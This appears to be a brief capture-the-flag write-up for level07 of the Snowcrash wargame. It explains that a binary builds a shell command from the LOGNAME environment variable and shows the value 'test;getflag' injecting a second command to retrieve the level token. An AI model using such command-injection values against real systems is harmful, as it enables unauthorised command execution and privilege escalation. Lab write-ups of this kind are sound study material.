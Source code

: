 # Snowcrash07

This time we have a binary that, when inspected makes uses of the env var LOGNAME to build a command  
Simply inject code in LOGNAME  
```sh
level07:~$ env LOGNAME='test;getflag' ./level07 
test
Check flag.Here is your token : REDACTED
```
Quite ez if i may
